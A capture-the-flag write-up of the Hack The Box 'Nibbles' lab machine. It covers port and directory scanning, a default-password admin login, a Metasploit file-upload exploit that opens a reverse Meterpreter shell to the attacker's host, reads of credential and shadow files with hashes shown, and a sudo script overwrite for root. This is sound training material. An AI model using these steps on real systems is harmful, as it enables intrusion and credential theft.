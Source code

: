 # Nibbles 10.10.10.75 - Linux

 - __User__: 006 - 1st Attempt
 - __Root__: 006 - 1st Attempt

## Initial Attempt, 05/06/2020

### Enumeration

```shell
Nmap scan report for 10.10.10.75
Host is up (0.033s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds
```

 - Browser visit to `/` is a Hello world page.
 - Dirbuster found: `/icons`, `/icons/small`, and `/server-status` - we have 403 to all
 - `nikto -host 10.10.10.75` results:

```shell
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.75
+ Target Hostname:    10.10.10.75
+ Target Port:        80
+ Start Time:         2020-05-05 22:07:34 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 5d, size: 5616c3cf7fa77, mtime: gzip
+ Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7863 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2020-05-05 22:12:34 (GMT-4) (300 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

I stumbled my ass into viewing the full source of the default page at port 80 and in the comments it points to the `/nibbleblog/` location. .... facepalm. Ok.

```html
[*] Running module against 10.10.10.75
[*] <b>Hello world!</b>








<!-- /nibbleblog/ directory. Nothing interesting here! -->

[*] Auxiliary module execution completed
```

Running `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.75:80/nibbleblog -t 60 -x .php,.txt,.html,.mod,.pw,.sql,.db -s "200,301" -o dumps/nibbles.gobuster.txt`

```shell
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75:80/nibbleblog
[+] Threads:        60
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,301
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     pw,sql,db,php,txt,html,mod
[+] Timeout:        10s
===============================================================
2020/05/05 22:43:59 Starting gobuster
===============================================================
/index.php (Status: 200)
/sitemap.php (Status: 200)
/content (Status: 301)
/themes (Status: 301)
/feed.php (Status: 200)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
/LICENSE.txt (Status: 200)
/COPYRIGHT.txt (Status: 200)
===============================================================
2020/05/05 22:59:30 Finished
===============================================================
```

Browsing `http://10.10.10.75/nibbleblog/content/`, some bits:

```html
<user username="admin">
<notification_email_to type="string">admin@nibbles.com</notification_email_to>
<notification_email_from type="string">noreply@10.10.10.134</notification_email_from>
<plugin name="Latest posts" author="Diego Najar" version="3.7" installed_at="1512926436">
```
### Exploitation - User Space

Can access `http://10.10.10.75/nibbleblog/admin/` and browse directories but can't seem to access php files.

By dumb luck I went to `admin.php` and tried two user/PW combos: `admin/admin` and `admin/nibbles` - and I'm in. Doesn't seem like I can access anything new other than the GUI being friendly.

Turns out metasploit had a nibbleblog module:

```shell
msf5 exploit(multi/http/nibbleblog_file_upload) > set targeturi /nibbleblog
targeturi => /nibbleblog
msf5 exploit(multi/http/nibbleblog_file_upload) > run

[*] Started reverse TCP handler on 10.10.14.53:4444
[*] Sending stage (38288 bytes) to 10.10.10.75
[*] Meterpreter session 1 opened (10.10.14.53:4444 -> 10.10.10.75:38980) at 2020-05-05 23:27:17 -0400
[+] Deleted image.php


meterpreter >
meterpreter > sysinfo
Computer    : Nibbles
OS          : Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64
Meterpreter : php/linux
meterpreter > cat /etc/os-release
NAME="Ubuntu"
VERSION="16.04.3 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.3 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
meterpreter > cat /proc/version
Linux version 4.4.0-104-generic (buildd@lgw01-amd64-022) \
  (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.5) )\
  #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017
```

Perhaps I can upload files using this path? I can indeed use upload/download in meterpreter to easily move files.

From `shadow.php`, `ea8e3c9799c10e2982c0b54299fd866f32b95f5a` is `nibbles` with salt `8^8!@tv&zb3`

```php
meterpreter > cat keys.php
<?php $_KEYS[0] = "nibbl08ee826e0531a482508227e99b7fb08a02dbc57c";
      $_KEYS[1] = "ebloge3a388b4dc866813a85b82b01b44178e06c3f3d4";
      $_KEYS[2] = "rulez7d1e888dd6f8277ba0c39946a272a027eda97d90"; ?>
```

Moved into `/home/nibbler` and found `user.txt` flag. Output `/etc/passwd`:

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
nibbler:x:1001:1001::/home/nibbler:
```

 - PHP is 5.6
 - nibbler's password is not nibbles

### Exploitation - Root Escalation

If you look at `sudo -l` you can see that `nibbler` has permissions to sudo his personal monitor script:

```shell
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

So, we can make `monitor.sh` be w/e we want. In this case let's make it:

```shell
bash -i
```

This will simply return an interactive bash shell. But we are allowed to `sudo` this script, so the bash context will return as root.

`sudo ./monitor.sh` - and waaaaait for it...

```shell
root@Nibbles:/home/nibbler/personal/stuff#
```

### Post Root

Relevant contents of `/etc/shadow`:

```shell
nibbler:$6$X3A8Ojo1$ZixRGB1HEQv552mnnJALZ6hOStYqqJuMoUsFipTFJl22OBupNaqGluyidsq4bZ2oBxr2YH/p4.v/ZaMosY4jZ/:17511:0:99999:7:::
root:$6$DewMP6p.$vV1WdlCbgZJkOM98Qw7Dur.A.4YOq910laHkQZu/uMuomOjKntzg5GSsl8pYT0qtW9I.YMkr3HBC0Sw/s3TKq0:17511:0:99999:7:::
```
